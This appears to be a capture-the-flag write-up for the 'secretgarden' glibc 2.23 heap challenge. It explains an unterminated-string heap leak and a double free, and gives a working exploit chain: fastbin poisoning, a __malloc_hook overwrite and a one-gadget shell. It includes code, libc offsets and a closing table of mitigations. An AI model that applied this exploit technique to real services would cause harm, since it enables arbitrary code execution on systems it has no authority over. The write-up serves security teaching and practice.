

**Category:** Pwn  
**Binary:** `secretgarden` (x86-64 PIE, Full RELRO, NX, Stack Canary, FORTIFY)  
**Vulnerability:** Unterminated `%s` heap leak + use-after-free double-free → fastbin poisoning → `__malloc_hook` overwrite

## Summary

`secretgarden` is a classic heap challenge on glibc 2.23. It offers a four-option flower garden menu: raise a flower (allocate a name heap chunk + flower struct), visit the garden (print all names with `%s`), remove a flower (free the name chunk), and clean the garden (free flower structs with a cleared `used` flag).

Two bugs combine to get a shell. First, the name buffer is filled with `read()` and never null-terminated, so the subsequent `%s` print leaks adjacent heap bytes — enough to recover a libc pointer from the unsorted bin. Second, `remove()` frees the name chunk but leaves the slot pointer live and the `name` pointer un-nulled, so the same index can be freed again. On glibc 2.23 this gives a usable A→B→A fastbin cycle. The exploit poisons that cycle to land a `malloc()` call on `__malloc_hook - 0x23` and overwrites both `__realloc_hook` and `__malloc_hook` with a one-gadget trampoline.

## Vulnerabilities

### Bug 1 — Unterminated name buffer leaks heap metadata

The flower allocation path reads the name with `read()`:

```c
__buf = malloc((ulong)local_24);
read(0, __buf, (ulong)local_24);          // fills exactly local_24 bytes, no terminator
puVar2[1] = __buf;                        // struct->name = raw buffer
```

Later, the visit path prints it with `%s`:

```c
__printf_chk(1, "Name of the flower[%u] :%s\n", uVar3, *(undefined8 *)(piVar2 + 2));
```

`%s` walks past the end of the allocated chunk until it finds a zero byte, disclosing whatever heap metadata or allocator pointers follow the buffer.

### Bug 2 — `remove()` double free

```c
if ((local_14 < 100) && ((undefined4 *)(&DAT_00302040)[local_14] != (undefined4 *)0x0)) {
    *(undefined4 *)(&DAT_00302040)[local_14] = 0;    // clears used flag inside heap object
    free(*(void **)((&DAT_00302040)[local_14] + 8)); // frees name pointer
    puts("Successful");
}
```

The global slot pointer is never cleared, and the name pointer inside the object is never nulled. The dangling slot is still accessible by index, so the same name chunk can be freed a second (and third) time. On glibc 2.23, the only double-free guard is an immediate-duplicate check (`fasttop == chunk`). The A→B→A pattern bypasses that check and creates a circular fastbin list under attacker control.

## Exploit Strategy

```mermaid
graph LR
    A["raise 0x100 chunk\n(flower 0)"] --> B["guard chunk\n(flower 1)"]
    B --> C["remove(0) + clean()\nchunk into unsorted bin"]
    C --> D["raise 0x100 with b'C'\npartial overwrite"]
    D --> E["visit → %s leak\nrecover main_arena+88"]
    E --> F["compute libc base"]
    F --> G["raise two 0x60 chunks\n(flowers 2 and 3)"]
    G --> H["remove 2, 3, 2\nA→B→A fastbin cycle"]
    H --> I["raise → write fake fd\n= __malloc_hook - 0x23"]
    I --> J["drain fastbin\n(3 allocations)"]
    J --> K["4th alloc lands on\n__malloc_hook - 0x13"]
    K --> L["write one_gadget → __realloc_hook\nrealloc+0x14 → __malloc_hook"]
    L --> M["menu option 1\nmalloc() fires hook chain"]
    M --> N["shell → cat /flag.txt"]
```



### Phase 1 — Leak libc from the unsorted bin

A large chunk (`0x100`) freed into the unsorted bin keeps the `fd` pointer of `main_arena+88` in its first eight bytes. The trick is to reallocate that exact chunk and send only one byte (`b"C"`), so the `read()` call returns early and leaves bytes 1–5 of the arena pointer intact.

```
raise_flower(0x100, b"A"*0x100)   # flower 0 — big name chunk
raise_flower(0x20,  b"B"*0x20)    # flower 1 — guard against top consolidation
remove(0)                          # name chunk → unsorted bin
clean()                            # flower struct freed; next struct alloc reuses it
raise_flower(0x100, b"C")         # reuses the unsorted-bin chunk; read() returns after 1 byte
visit → leak_name(0)
```

The leaked bytes are then reconstructed:

```python
# low byte is known: 0x78 is always the LSB of main_arena+88 in glibc 2.23
unsorted_fd = u64(b"\x78" + leaked_name[1:6] + b"\x00\x00")
libc.address = unsorted_fd - 0x3C3B78
```

The unsorted bin memory layout at the moment of the leak:

<style>
.sg-tbl td {
  font-family: monospace;
  font-size: 0.82em;
  padding: 4px 10px;
  border: 1px solid rgba(128,128,128,0.3);
  text-align: center;
}
.sg-green  { background: rgba(80,200,100,0.18); }
.sg-yellow { background: rgba(230,200,40,0.22); }
.sg-orange { background: rgba(230,130,30,0.28); }
.sg-red    { background: rgba(220,60,60,0.22); }
</style>

<table class="sg-tbl" style="border-collapse:collapse;margin:1em 0">
  <tr>
    <td style="font-weight:bold;width:160px">Offset in chunk</td>
    <td style="font-weight:bold;width:220px">Contents</td>
    <td style="font-weight:bold">Notes</td>
  </tr>
  <tr>
    <td class="sg-green">−0x10 (prev_size)</td>
    <td class="sg-green">0x0000000000000000</td>
    <td class="sg-green">chunk header</td>
  </tr>
  <tr>
    <td class="sg-green">−0x08 (size)</td>
    <td class="sg-green">0x0000000000000111</td>
    <td class="sg-green">0x110 | IN_USE</td>
  </tr>
  <tr>
    <td class="sg-red">+0x00 (fd)</td>
    <td class="sg-red">43 <span style="color:rgba(230,130,30,1)">XX XX XX XX XX</span> 00 00</td>
    <td class="sg-red">'C' overwrites low byte; bytes 1-5 = main_arena+88</td>
  </tr>
  <tr>
    <td class="sg-orange">+0x08 (bk)</td>
    <td class="sg-orange">main_arena+96</td>
    <td class="sg-orange">unsorted bin back pointer</td>
  </tr>
  <tr>
    <td class="sg-yellow">+0x10 … +0xFF</td>
    <td class="sg-yellow">A A A A … (stale)</td>
    <td class="sg-yellow">leftover from original write</td>
  </tr>
</table>

### Phase 2 — A→B→A fastbin cycle

```python
raise_flower(0x60, b"D" * 0x60)   # chunk A (flower 2)
raise_flower(0x60, b"E" * 0x60)   # chunk B (flower 3)
remove(2)   # free A
remove(3)   # free B  →  list: B → A
remove(2)   # free A again  →  list: A → B → A
```

glibc 2.23's `_int_free` checks only `*fastbin_head == chunk` before inserting. The A→B→A sequence passes because the second free of A sees `B` at the head, not `A`.

### Phase 3 — Poison the fastbin toward `__malloc_hook`

The target fake chunk is `__malloc_hook - 0x23`. At that address, the `size` field overlaps a byte that happens to read as `0x7f`, which satisfies glibc 2.23's fastbin size check for a `0x70`-bucket request.

```python
fake_chunk = libc.sym.__malloc_hook - 0x23

raise_flower(0x60, p64(fake_chunk))   # alloc A, poison fd
raise_flower(0x60, b"F" * 0x60)      # alloc B
raise_flower(0x60, b"G" * 0x60)      # alloc A (cycle comes back)
raise_flower(0x60, hook_payload)      # alloc fake chunk → lands at __malloc_hook - 0x13
```

The payload written at `__malloc_hook - 0x13`:

```
offset +0x00 … +0x0A  →  padding (b"H" * 11)
offset +0x0B           →  __realloc_hook  =  one_gadget
offset +0x13           →  __malloc_hook   =  realloc + 0x14
```

<table class="sg-tbl" style="border-collapse:collapse;margin:1em 0">
  <tr>
    <td style="font-weight:bold">Symbol</td>
    <td style="font-weight:bold">Address</td>
    <td style="font-weight:bold">Written value</td>
  </tr>
  <tr>
    <td class="sg-green">fake chunk base</td>
    <td class="sg-green">__malloc_hook − 0x23</td>
    <td class="sg-green">returned by malloc as user ptr − 0x10</td>
  </tr>
  <tr>
    <td class="sg-orange">__realloc_hook</td>
    <td class="sg-orange">base + 0x0B</td>
    <td class="sg-orange">one_gadget (0xEF6C4)</td>
  </tr>
  <tr>
    <td class="sg-red">__malloc_hook</td>
    <td class="sg-red">base + 0x13</td>
    <td class="sg-red">realloc + 0x14</td>
  </tr>
</table>

### Phase 4 — Trigger through the hook trampoline



Why `realloc + 0x14` rather than writing the one-gadget directly into `__malloc_hook`: jumping into the middle of `realloc` (past its function preamble) adds one extra stack frame and adjusts `rsp`, which satisfies the `[rsp+0x50] == NULL` constraint that the one-gadget requires. Writing the gadget directly into `__malloc_hook` would not satisfy that constraint.

## Key Constants

| Constant | Value | Purpose |
|---|---|---|
| `UNSORTED_FD_OFFSET` | `0x3C3B78` | `main_arena+88` offset in supplied glibc 2.23 |
| `FASTBIN_REQUEST` | `0x60` | Request size → `0x70` fastbin bucket |
| `fake_chunk` | `__malloc_hook - 0x23` | Overlaps a `0x7f` byte that fakes chunk size |
| `ONE_GADGET_OFFSET` | `0xEF6C4` | `execve("/bin/sh")` gadget in supplied libc |
| `REALLOC_HOOK_CHECK` | `0x14` | Offset into realloc that reads `__realloc_hook` |

## Fix / Mitigations

| Mitigation | Would it help? |
|---|---|
| Null-terminate name buffer after `read()` | Closes the unsorted-bin leak entirely |
| Null the global slot pointer in `remove()` | Prevents dangling index access |
| Null the `name` pointer inside the flower struct after `free()` | Prevents double-free on the same chunk |
| glibc 2.26+ tcache | Double-free detected on second free of the same pointer |
| ASLR | Already enabled; leak bypasses it |
| Full RELRO | Already enabled; `__malloc_hook` is in libc data, not the GOT |
